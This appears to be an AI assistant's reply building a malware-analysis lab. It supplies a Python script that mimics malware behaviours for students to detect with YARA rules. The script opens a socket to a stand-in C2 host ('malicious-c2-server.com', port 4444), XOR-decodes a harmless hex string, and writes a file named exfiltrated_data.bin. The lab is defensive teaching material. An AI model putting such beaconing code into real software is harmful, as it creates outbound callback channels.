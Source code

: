 To create a more advanced malware sample using binary code, we can simulate more sophisticated behaviors, such as **binary-level obfuscation**, **hexadecimal encoding**, **packed payloads**, and more intricate **network activities**. This sample will help students learn to detect binary patterns, malicious payloads, and more advanced techniques in malware analysis.

### **Advanced Malware Sample Using Binary Code**

This will involve creating a sample that simulates **network communications**, **malicious file creation**, **binary obfuscation**, and **packed payloads**. This type of sample will challenge students to detect advanced **hexadecimal** patterns, **string analysis**, **code injection**, and **network traffic analysis**.

Here’s how we can proceed:

---

### **1. Creating the Binary Malware Sample**

The sample will simulate the following actions:
- **Hexadecimal encoding** of a malicious payload.
- **Network communication** with a fake C2 server.
- **File creation** to simulate data exfiltration.
- **Injection into a process** (simulated with basic operations).

Here is the Python code that **emulates advanced behavior** by generating a binary pattern that will be more challenging for students to detect using YARA:

### **Advanced Python Malware Simulation (Binary, Network, and File Simulation)**

```python
import os
import socket
import struct
import random
import time
import binascii
import threading

# Simulated C2 server (for educational purposes)
C2_SERVER = "malicious-c2-server.com"
C2_PORT = 4444

# Fake XOR key for encoding/decoding malicious binary payloads
XOR_KEY = 0x99

# Sample malicious binary payload encoded as a hex string
MALICIOUS_PAYLOAD_HEX = "0x6f6f6f646f6779707574206879"

# Function to simulate XOR decryption of binary payload
def xor_decrypt(payload, key):
    return bytearray([b ^ key for b in payload])

# Simulated network persistence (connecting to fake C2 server)
def simulate_network_persistence():
    print("[INFO] Attempting network communication with fake C2 server...")
    try:
        # Creating a socket and simulating a connection to the C2 server
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((C2_SERVER, C2_PORT))
        message = "Malware connected successfully to C2"
        s.send(message.encode())
        s.close()
        print("[INFO] Successfully connected to the C2 server.")
    except Exception as e:
        print(f"[ERROR] Failed to connect to C2 server: {e}")

# Simulate file creation to mimic exfiltration
def simulate_file_creation():
    print("[INFO] Creating malicious file to simulate data exfiltration.")
    with open("exfiltrated_data.bin", "wb") as f:
        malicious_data = os.urandom(1024)  # Simulating random data (malicious exfiltration)
        f.write(malicious_data)
    print("[INFO] Malicious file created: exfiltrated_data.bin")

# Simulate binary payload execution
def execute_payload():
    print("[INFO] Executing malicious payload.")
    payload = binascii.unhexlify(MALICIOUS_PAYLOAD_HEX[2:])
    decrypted_payload = xor_decrypt(payload, XOR_KEY)
    print(f"[INFO] Payload executed: {decrypted_payload.decode('utf-8', errors='ignore')}")

# Simulate process injection (for educational purposes, no actual injection)
def simulate_process_injection():
    print("[INFO] Simulating process injection...")
    time.sleep(1)
    print("[INFO] Malicious code injected into a process (simulated).")

# Main function to simulate the complete malware behavior
def main():
    print("[INFO] Starting advanced malware simulation...")
    threading.Thread(target=simulate_network_persistence).start()  # Network activity
    threading.Thread(target=simulate_file_creation).start()  # File creation (data exfiltration)
    threading.Thread(target=execute_payload).start()  # Executing binary payload
    threading.Thread(target=simulate_process_injection).start()  # Process injection simulation

if __name__ == "__main__":
    main()
```

---

### **Key Features and Behaviors in This Malware Sample**:

1. **Hexadecimal Encoded Payload**:
   - The malicious payload is encoded in **hexadecimal** format (`MALICIOUS_PAYLOAD_HEX`).
   - This is then **XOR decrypted** to retrieve the actual malicious content.
   
   This simulates how malware might obfuscate payloads to avoid detection by basic signature-based systems.

2. **Network Persistence**:
   - The script simulates communication with a **fake C2 server** (`malicious-c2-server.com` on port `4444`), sending a message such as:
     - `"Malware connected successfully to C2"`.
   
   This mimics real-world malware that establishes a connection with a C2 server for instructions or to exfiltrate data.

3. **File Creation (Data Exfiltration)**:
   - The script creates a binary file (`exfiltrated_data.bin`) to simulate data exfiltration.
   - It writes **random binary data** to the file using `os.urandom(1024)`.
   - This simulates a scenario where malware might be stealing or transmitting sensitive information.

4. **Process Injection Simulation**:
   - The script simulates **process injection** without actually performing it, as it's for educational purposes only.
   - It just prints out `"Simulating process injection..."` to demonstrate the concept.

---

### **How This Malware Sample Challenges Students**:

1. **YARA Rule Creation**:
   - Students will need to create **advanced YARA rules** to detect the following:
     - **Hexadecimal payload detection** (for both XOR encoding and Base64 if used).
     - **XOR decryption patterns** to detect obfuscation.
     - **Network persistence** (detecting connections to known C2 servers).
     - **File creation behavior** (detecting specific files created by the malware).

2. **Advanced Analysis**:
   - Students will need to carefully analyze the **network traffic** (using tools like Wireshark or tcpdump) to detect the **C2 server communication**.
   - They will have to inspect the **binary content** and identify encoding patterns (e.g., XOR or Base64).
   - They will need to understand how to **handle obfuscated payloads** and **encrypted data**.
   
---

### **Testing and Validation**:

1. **Run the Sample Malware**:
   - In an isolated and controlled environment, run the Python script.
   - Monitor the output and behavior:
     - Check for file creation: `exfiltrated_data.bin`.
     - Inspect network traffic for any outgoing connection to the C2 server (`malicious-c2-server.com`).
   
2. **YARA Rule Testing**:
   - After writing YARA rules to detect the behavior above, test them against the folder where the malware was run:
     ```bash
     yara -r your_yara_rule.yara /path/to/test_directory/
     ```

3. **Rule Creation**:
   Students should write YARA rules to:
   - Detect the **XOR-encoded payload** and **Base64** patterns.
   - Identify specific **network connections**.
   - Detect file creation with the name `exfiltrated_data.bin`.
   - Detect malicious **hexadecimal strings** in the malware code.

---

### **Deliverables for Students**:

1. **Write YARA Rules**:
   - Rule 1: Detect the **hexadecimal payload** (XOR and Base64).
   - Rule 2: Identify **XOR encryption patterns**.
   - Rule 3: Detect network activity to **C2 servers**.
   - Rule 4: Detect file creation related to **data exfiltration** (`exfiltrated_data.bin`).

2. **Test Their Rules**:
   - Run their YARA rules against the sample malware script.
   - Analyze whether the rules generate any **false positives** or **false negatives**.

3. **Create a Report**:
   - Include their YARA rules, testing process, and any insights into detecting obfuscated and binary payloads.
   - Discuss any challenges faced during testing and how to address them.

---

### **Advanced Teaching Objectives**:

This lab will help your students:
- Analyze and detect **binary-based obfuscation** techniques.
- Create **complex YARA rules** to detect XOR and other binary encoding techniques.
- Understand **network persistence** mechanisms in malware.
- Learn to detect **fileless malware** and **data exfiltration** techniques.

---

Let me know if you need further enhancements or explanations on specific parts!